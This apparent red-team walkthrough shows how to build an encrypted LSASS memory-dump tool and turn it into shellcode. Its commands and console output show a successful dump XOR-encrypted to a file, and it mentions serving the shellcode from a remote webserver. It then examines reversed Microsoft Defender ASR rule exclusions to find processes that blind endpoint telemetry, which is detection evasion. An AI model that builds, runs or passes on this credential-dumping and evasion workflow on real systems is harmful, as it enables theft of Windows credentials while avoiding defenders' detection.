 Blog Reference: <https://dec0ne.github.io/research/2022-11-14-Undetected-Lsass-Dump-Workflow/>	

Using the above blog as a reference, it is possible to build a C++ DLL / EXE leveraging the MiniDumpWriteDump API for an encrypted LSASS dump primarily to bypass the Signature of the dump by performing simple XOR / AES encryption. In this case, XOR encryption is leveraged.

Using the blog as a reference, build and compile the DLLHijackLSASSDump POC as an exe / DLL and later convert it to shellcode using [pe2shc](https://github.com/hasherezade/pe_to_shellcode) / [donut](https://github.com/TheWover/donut). Test the shellcode using runshc64.

*NOTE: The source for the DLLHijackLSASSDump shellcode can be found in the `/shellcode` folder on GitHub.*

```
C:> .\pe2shc.exe .\DLLHijackLSASSDump.dll DLLHijackLSASSDump.bin
Using: Loader v2
Reading module from: .\DLLHijackLSASSDump.dll
[INFO] This is a console application.
[INFO] Saved as: DLLHijackLSASSDump.bin

C:> .\runshc64.exe .\DLLHijackLSASSDump2.bin
[*] Reading module from: .\DLLHijackLSASSDump2.bin
>>> Creating a new thread...
[*] Running the shellcode [28e06530000 - 28e06539600]
[+] Searching for LSASS PID
[+] LSASS PID: 1520
[+] Starting dump to memory buffer
[+] Copied 89925780 bytes to memory buffer
[+] Successfully dmped LS@SS to memory!
[+] Xor encrypting the memory buffer containing the dump data
[+] Xor key: ripLs4SS123
[+] Enrypted dump data written to "ENCRYPTED.DMP" file
```

Once done, we serve the shellcode from a remote webserver.

MDE heavily relies on ASR rules for telemetry and detection as noticed above. To perform a successful LSASS dump using the standard MiniDumpWriteDump function (by getting a handle to the LSASS process), we can attempt to invoke this function from an ASR excluded process. 

Reversing and parsing ASR .LUA rules, it is possible to find blind spots to perform trusted execution using the MiniDumpWriteDump function. We can use this approach to gain trusted execution blinding MDE of process telemetry. [hfiref0x](https://github.com/hfiref0x) wrote such a tool named [wd-extract](https://github.com/hfiref0x/WDExtract). 

Pay attention to the ASR reversed rule primarily targeting LSASS dump detections - "Blocking Credential Stealing from LSASS": https://github.com/HackingLZ/ExtractedDefender/blob/main/asr/9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2

```
GetPathExclusions = function()
  -- function num : 0_2
  local l_3_0 = {}
  l_3_0["%windir%\\system32\\WerFaultSecure.exe"] = 2
  l_3_0["%windir%\\system32\\mrt.exe"] = 2
  l_3_0["%windir%\\system32\\svchost.exe"] = 2
  l_3_0["%windir%\\system32\\wbem\\WmiPrvSE.exe"] = 2
  [...snip...]
  l_3_0["%windir%\\system32\\CompatTelRunner.exe"] = 2

GetCommandLineExclusions = function()
  -- function num : 0_3
  local l_4_0 = "^\\\"?.:\\\\windows\\\\system32\\\\werfault\\.exe\\\"?((?!\\-s).)*$"
  local l_4_1 = {}
  l_4_1[l_4_0] = 0
  return l_4_1
end
```
